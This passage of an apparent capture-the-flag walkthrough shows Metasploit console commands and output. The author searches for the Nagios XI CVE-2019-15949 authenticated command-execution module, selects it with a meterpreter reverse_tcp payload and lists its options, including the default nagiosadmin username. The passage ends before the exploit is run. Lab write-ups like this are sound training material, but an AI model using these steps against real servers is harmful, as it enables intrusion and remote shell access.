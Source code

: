 ### Metasploit

Thankfully metasploit has a module for this CVE:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Nax/files]
└─$ msfconsole -q

msf6 > search CVE-2019-15949

Matching Modules
================

   #  Name                                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                                 ---------------  ----       -----  -----------
   0  exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce  2019-07-29       excellent  Yes    Nagios XI Prior to 5.6.6 getprofile.sh Authenticated Remote Command Execution
   1  auxiliary/scanner/http/nagios_xi_scanner                                              normal     No     Nagios XI Scanner


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/scanner/http/nagios_xi_scanner

msf6 > use 0
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) >
~~~

Metasploit module: `exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce`

Now let's set the required variables and run the exploit:

~~~
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so. Th
                                              is includes signing the license agreement.
   PASSWORD                         yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                              /wiki/Using-Metasploit
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an addr
                                              ess on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


~~~